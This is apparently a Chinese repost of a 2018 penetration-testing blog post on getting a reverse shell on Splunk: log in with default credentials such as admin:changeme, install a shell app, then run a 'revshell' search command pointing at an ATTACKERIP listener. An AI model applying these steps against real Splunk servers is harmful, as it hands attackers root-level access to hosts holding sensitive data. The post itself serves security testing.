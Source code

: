 ```yaml
---
layout:     post
title:      Splunk Shell
date:       2018-12-08
author:     Wh0ale
header-img: img/wallhaven-701358.jpg
catalog: true
tags:
    - 奇技淫巧
    - Splunk
---
```


我不时地在测试网络时遇到Splunk。Splunk 是一个用于搜索，分析和可视化数据的软件平台。它对各种用途都非常有用。作为一个测试者，它可能很有用，因为它通常包含各种数据，其中一些可能是敏感的。 

获得对Splunk的访问权限可以通过密码猜测或利用以前受到破坏的凭据重用密码来完成。我有过使用“**admin**：**admin** ”或“ **admin**：**changeme** ” 登录进入管理控制台很容易的情况。

一个鲜为人知的技巧是你可以使用Splunk应用程序来执行python。[TBG Security](https://tbgsecurity.com/)的酷团队开发了一款可用于测试的Splunk应用程序。2017年，他们在[许多缺点上](https://github.com/TBGSecurity/weaponize_splunk)展示了他们的应用程序。尽管如此，我觉得很少有人知道这个工具，我觉得它值得更多的关注。

使用它非常容易。首先，您只需要从Splunk Shells [GitHub](https://github.com/TBGSecurity/splunk_shells)页面下载它。下载该版本。

登录Splunk管理控制台后，单击“应用程序”栏并单击“ *管理应用程序”*。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/add_app.png)](https://www.n00py.io/wp-content/uploads/2018/10/add_app.png)

进入“应用”面板后，单击“ *从文件安装应用* ”。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/app-from-file.png)](https://www.n00py.io/wp-content/uploads/2018/10/app-from-file.png)

单击“浏览”按钮并上载tar.gz文件。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/upload_app.png)](https://www.n00py.io/wp-content/uploads/2018/10/upload_app.png)

上传应用后，必须重新启动Splunk。重新启动后，重新登录Splunk并返回“ *应用* ”页面。单击权限，当您看到“*共享* ”选项时，单击“ *所有应用程序* ” 单选按钮。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/edit-properties.png)](https://www.n00py.io/wp-content/uploads/2018/10/edit-properties.png)

安装应用程序后，最后要做的就是捕获shell。你有这里的选择，但我选择通过Metasploit使用标准的反向shell。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/msfsetup.png)](https://www.n00py.io/wp-content/uploads/2018/10/msfsetup.png)

一旦您的MSF处理程序（或netcat侦听器）启动并运行，您可以通过键入以下内容来触发应用程序：

```
| revshell SHELLTYPE ATTACKERIP ATTACKERPORT
```

[![img](https://www.n00py.io/wp-content/uploads/2018/10/splunk-rev.png)](https://www.n00py.io/wp-content/uploads/2018/10/splunk-rev.png)

这将立即执行应用程序，你应该让你的shell回电话。

[![img](https://www.n00py.io/wp-content/uploads/2018/10/shell-opened.png)](https://www.n00py.io/wp-content/uploads/2018/10/shell-opened.png)

我在Splunk 7.0上进行了测试，它运行得很好。Splunk通常以root身份运行。这为攻击者提供了很多机会来枚举主机本身的其他信息，而不仅仅是在数据库中。

**更新：**

另一种选择是使用Tevora的这一[系列应用程序](https://github.com/tevora-threat/splunk_pentest_app)。[在这里](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/)查看[他们的文章](https://threat.tevora.com/penetration-testing-with-splunk-leveraging-splunk-admin-credentials-to-own-the-enterprise/)，他们讨论弹出shell，提取密码和部署到通用转发器。

**再次更新（10/20/2018）：**

我在这里了解到另一个Splunk Web shell：[https](https://github.com/f8al/TA-Shell)：[//github.com/f8al/TA-Shell](https://github.com/f8al/TA-Shell)

CC：[SecurityShrimp](https://twitter.com/Securityshrimp)

 

转载自：https://www.n00py.io/2018/10/popping-shells-on-splunk/

splunk shell： https://github.com/TBGSecurity/splunk_shells
